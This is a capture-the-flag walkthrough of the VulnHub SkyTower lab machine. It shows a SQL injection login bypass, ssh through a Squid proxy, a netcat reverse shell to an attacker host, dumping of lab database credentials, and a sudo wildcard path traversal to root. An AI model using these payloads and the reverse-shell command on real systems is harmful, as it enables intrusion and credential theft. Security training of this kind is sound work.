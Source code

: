 ﻿## Skytower Writeup

 

So we start with the usual nmap scan and checkout what's going on.

```
nmap -v -sV -sC 192.168.56.101
```
```
Nmap scan report for 192.168.56.101
Host is up (0.00013s latency).
Not shown: 997 closed ports
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.2.22 (Debian)
|_http-title: Site doesn't have a title (text/html).
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
|_http-title: ERROR: The requested URL could not be retrieved
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)
```
Ok then so a Squid, a webserver, and ssh. Checking out the website we see a Skytech Login form.

![](pics/1.PNG)

So try admin' in the input box and it  shows us a sql error.
```
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1]
```
So we try doing the usual ' OR 1=1# and we get nothing. Checking the error message again it seems like OR is being filtered out.
```
curl --data "email=admin&password=' OR 1=1#" http://192.168.56.101/login.php
There was an error running the query [You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '11#'' at line 1]
```
So we replace the OR with || instead and it works we are get logged in as the user john.
```
curl --data "email=admin&password=' || 1=1#" http://192.168.56.101/login.php
```

![](pics/2.PNG)

OK then we have some creds for the ssh that's behind this proxy. So we setup our /etc/proxychains.conf to use the http proxy on port 3128  then we can ssh into the box.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
The authenticity of host '192.168.56.101 (192.168.56.101)' can't be established.
ECDSA key fingerprint is SHA256:QYZqyNNW/Z81N86urjCUIrTBvJ06U9XDDzNv91DYaGc.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.56.101' (ECDSA) to the list of known hosts.
john@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 15:08:41 2018

Funds have been withdrawn
Connection to 192.168.56.101 closed.
```
Umm maybe not then, we lose our $2 and get booted? That's not good but we can still run a command over ssh, so let's get a quick shell with netcat.
```
root@kali:~/machines/skytower# proxychains ssh john@192.168.56.101 nc 192.168.56.102 443 -e /bin/sh
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
john@192.168.56.101's password:

───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40670
id
uid=1000(john) gid=1000(john) groups=1000(john)
```
And we have no python so it seems like we might be stuck in this crappy shell. No worries though moving forward we can see a couple more users on the box, but we can't look at their home folders. So we check out the login.php from /var/www and it appears to give us the mysql password.
```
$db = new mysqli('localhost', 'root', 'root', 'SkyTech');
```
We can also see the filtering that is happening from before that wouldn't allow us to use OR operators.
```
$sqlinjection = array("SELECT", "TRUE", "FALSE", "--","OR", "=", ",", "AND", "NOT"); 
$email = str_ireplace($sqlinjection, "", $_POST['email']); 
$password = str_ireplace($sqlinjection, "", $_POST['password']);
```

So with this crap shell we can't explore the Mysql very easily but we can exec one command at a time like we've been doing. 
```
mysql -uroot -proot -e 'show databases;'
Database
information_schema
SkyTech
mysql
performance_schema
mysql -uroot -proot -e 'use SkyTech; show tables;'
Tables_in_SkyTech
login
mysql -uroot -proot -e 'use SkyTech; show tables; select * from login;'
Tables_in_SkyTech
login
id      email   password
1       john@skytech.com        hereisjohn
2       sara@skytech.com        ihatethisjob
3       william@skytech.com     senseable
```
Good stuff. So William's password doesn't seem to work, but we login as Sara and get booted as usual. We setup a listener and get a shell like before then notice we can run a couple commands as root which are configured horribly with wildcard characters.
```
root@kali:~# nc -nlvp 443
listening on [any] 443 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.101] 40684
sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
```
So lets try cating the root flag with some path traversal should be easy enough.
```
sudo cat /accounts/../../../../../../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
Awesome so let's get our root shell then.
```
root@kali:~/machines/skytower# proxychains ssh root@192.168.56.101
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.56.101:3128-<><>-192.168.56.101:22-<><>-OK
root@192.168.56.101's password:
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Sun Mar 18 16:30:19 2018 from 192.168.56.101
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
```
So that was pretty fun, thanks a bunch @telspacesystems and @VulnHub for the challenges.
 

